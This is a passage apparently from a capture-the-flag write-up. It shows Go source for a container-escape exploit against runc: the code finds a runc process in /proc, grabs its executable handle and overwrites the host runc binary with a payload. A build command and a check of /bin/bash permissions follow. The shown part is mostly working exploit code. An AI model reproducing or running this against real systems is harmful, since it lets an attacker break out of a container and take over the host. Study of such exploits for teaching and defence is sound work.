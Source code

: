 ```go
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

```
$ go build main.go
```

Looking at `/bin/bash` it has the normal permissions before performing the exploit.

```
noah@thenotebook:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
